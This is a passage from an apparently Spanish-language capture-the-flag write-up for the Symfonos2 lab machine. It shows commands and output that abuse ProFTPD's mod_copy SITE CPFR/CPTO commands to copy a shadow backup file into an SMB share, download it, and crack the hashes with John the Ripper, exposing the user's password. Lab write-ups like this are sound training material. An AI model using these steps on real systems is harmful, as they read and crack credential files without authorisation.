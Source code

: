 Procedemos a conectarnos al servicio FTP y copiar el archivo `/var/backups/shadow.bak` al directorio `/home/aeolus/share` al cual tenemos acceso por SMB

```ruby
❯proxychains ftp 10.10.0.137
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-127.0.0.1:1080-<><>-10.10.0.137:21-<><>-OK
Connected to 10.10.0.137.
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.0.137]
Name (10.10.0.137:yorch): anonymous
331 Anonymous login ok, send your complete email address as your password
Password:
530 Login incorrect.
Login failed.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> site help
214-The following SITE commands are recognized (* => s unimplemented)
 CPFR <sp> pathname
 CPTO <sp> pathname
 HELP
 CHGRP
 CHMOD
214 Direct comments to root@symfonos2
ftp> site cpfr /var/backups/shadow.bak
350 File or directory exists, ready for destination name
ftp> site cpto /home/aeolus/share/shadow.bak
250 Copy successful
```
Si listamos el contenido del recurso compartido `anonymous` vemos que tenemos la copia del archivo `shadow.bak`. Nos lo descargamos y crackeamos el hash para obtener la contraseña del usuario `aeolus`

```ruby
❯ proxychains smbmap -H 10.10.0.137 -r anonymous
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-127.0.0.1:1080-<><>-10.10.0.137:445-<><>-OK
|S-chain|-<>-127.0.0.1:1080-<><>-10.10.0.137:445-<><>-OK
[+] Guest session   	IP: 10.10.0.137:445	Name: 10.10.0.137                                       
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	anonymous                                         	READ ONLY	
	.\anonymous\*
	dr--r--r--                0 Wed Dec 28 12:15:44 2022	.
	dr--r--r--                0 Thu Jul 18 16:29:08 2019	..
	dr--r--r--                0 Thu Jul 18 16:25:17 2019	backups
	fr--r--r--             1173 Mon Jan  2 12:08:19 2023	shadow.bak
```

```ruby
❯ john -w:/usr/share/wordlists/rockyou.txt shadow.bak
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Remaining 2 password hashes with 2 different salts
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
sergioteamo		(aeolus)
```
